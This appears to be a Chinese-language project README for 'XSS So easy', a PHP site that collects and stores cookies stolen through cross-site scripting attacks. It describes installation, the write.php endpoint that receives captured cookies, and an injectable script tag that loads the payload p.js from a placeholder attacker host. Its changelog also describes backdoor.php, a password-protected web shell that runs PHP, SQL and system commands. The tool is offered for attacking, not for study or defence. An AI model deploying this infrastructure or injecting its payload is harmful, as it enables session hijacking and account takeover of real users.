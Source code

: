 #XSS So easy
##简介
此网站用于XSS Cookie 劫持攻击中接收并储存Cookie。  
程序语言使用PHP，使用PDO扩展，请根据数据库正确安装；开发环境使用MySQL数据库，理论上PDO扩展支持各种数据库。

##使用方法
###安装配置
1. 建议预先新建数据库用户，赋予最小权限。
2. 配置`config.php`，填写数据库用户名、密码等信息。  
3. 访问`install.php`：创建数据库、表等操作。
4. 建议更改`config.php`文件权限为只能被HTTP服务程序读取，可以设置`style/color.css`可写。  

###使用  
通过`write.php`，GET或者POST方法传输获取到的Cookie。  
可供提交的参数为`domain location toplocation cookie opener`。其中`domain`必填。  
含有payload：`p.php`。  

##附加功能
各个页面的独立访问密码  
自定义网站名称（title和页面中显示）  
自定义开发者信息（底部显示）    

##Update
###2015-9-12 21:05:48
一条不当的payload，使数据库里多了几百条垃圾数据。  
于是我写了执行SQL语句的backdoor.php。（支持密码）  

###2015-9-16 10:44:21
自我感觉默认配置的颜色过于小清新。于是分离出color.css文件，可以自行配置颜色。  
出于复（xián）习（de）知（dàn）识（téng）的目的，做了个color.php，向color.css写入数据。  
后门支持PHP、SQL、shell命令执行，且支持SQL SELECT命令结果显示。SQL的INSERT UPDATE DELETE影响行数显示。（突然发现做了个WebShell）  
输出表格增加\n使HTML源文件易读。  
由于空字符串在if语句中效果同false，因此system()返回最后一行为空时应使用if($foo !== FALSE)。其他情况同理。  
改变字体为等宽字体。个别地方，中文使用微软雅黑。  
使用Eclipse排版一下。其他一些细节调整优化。  

###2015-9-16 22:25:33
CSS文件已改为PHP文件读写。  
在Windows上运行系统命令时输出字符集为GBK，增加自动转换为UTF-8。  

###2015-9-21 21:26:59
密码验证方式由GET改为POST，并增加install和testMySql页面密码功能  
分离出CSS文件，并移动到style/main.css  
增加read.php条件查询  

###2015-10-20 15:45:32
修改数据库，更改url字段名为location并允许NULL，增加toplocation（用于框架）、opener。  
**从旧的数据库变更请在backdoor.php执行SQL命令**：  

	alter table info change url location longtext NULL
	alter table info add toplocation longtext
	alter table info modify column cookie longtext after toplocation
	alter table info add opener longtext
	describe info  

增加p.js作为payload，修改内部write.php域名和路径即可使用。  
`<script src=http://xxx.xxx/p.js></script>`  

###2015年11月19日 21:43:46
近期更新：  
  
- `read.php`默认的倒序排序，增加删除键，调整样式  
- 改进`backdoor.php`交互设计

###2016年8月25日
- 从已废弃的`mysql_connect()`系列函数更新到PDO扩展。  
- 大量改进代码：验证密码部分整合成模块，payload `p.js`改为`p.php`,根据`config.php`动态生成。
- `color.php`将CSS数据与代码分离